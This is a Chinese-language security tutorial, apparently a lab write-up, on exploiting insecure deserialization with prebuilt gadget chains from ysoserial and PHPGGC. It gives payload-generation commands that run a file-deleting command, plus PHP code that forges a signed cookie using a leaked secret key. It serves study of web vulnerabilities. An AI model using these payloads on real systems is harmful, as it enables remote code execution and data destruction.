 ### 预构建的 gadget 链

上一篇文章我们提到过 gadget 链的基本内容，我们可以得知，只要类能符合**目标应用程序或其依赖库中定义的、可被反序列化机制实例化并自动调用其方法的类**，我们都可以从尝试从中挖掘一些反序列化漏洞，来触发类中的敏感方法。

如果系统引入了第三方库，那么第三方库的类也可以被用来挖掘 gadget 链，常见的有：

- java 的 Apache Commons Collections 库
- php 的 Symfony 框架 

这些框架都是开源的，因此有很多 “专业人士” 爱好在开源框架中找 gadget 链。甚至将 gadget 链做成项目。

Java 反序列化工具 **ysoserial** 可基于目标应用使用的库，选择预设的 gadget 链，传入待执行命令后自动生成对应的序列化对象。虽需一定试错，但相比手动构建链更高效省力。

PHP 反序列化工具**PHPGGC**（PHP Generic Gadget Chains）可基于目标 PHP 应用使用的框架或库（如 Symfony、Laravel 等），选择对应的 Gadget 链模板，传入待执行的 PHP 代码（如系统命令）后自动生成序列化 Payload。虽需结合目标环境调试，但相比手动构造 Gadget 链更高效。

### java 反序列化工具

在 Java 16 及更高版本中，你需要为 Java 设置一系列命令行参数才能运行 ysoserial。例如：

```bash
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   [有效载荷] '[命令]'
```

```
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```

```
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```

  这里存在一个靶场，我不贴图片了，生成 exp 后放入 cookie 中执行即可。

### php 反序列化工具

可以看到目标使用 Symfony 框架。

![image-20250506100724518](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/images/image-20250506100724518.png)

```
# 生成 payload。
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
```

```php
// 生成 cookie
// 忘了提了，这个靶场泄露了 phpinfo
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";				// 生成的 payload。
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";	// phpinfo 页面的 secretkey
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

```
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ1emp2emFoZ2hubXRhZmNyZXhiNGxnbjRqZTM0aTJrciI7fQ==","sig_hmac_sha1":"e6347c5ca1a7f39f96afd09ccbfd6a89c51f542f"}
```


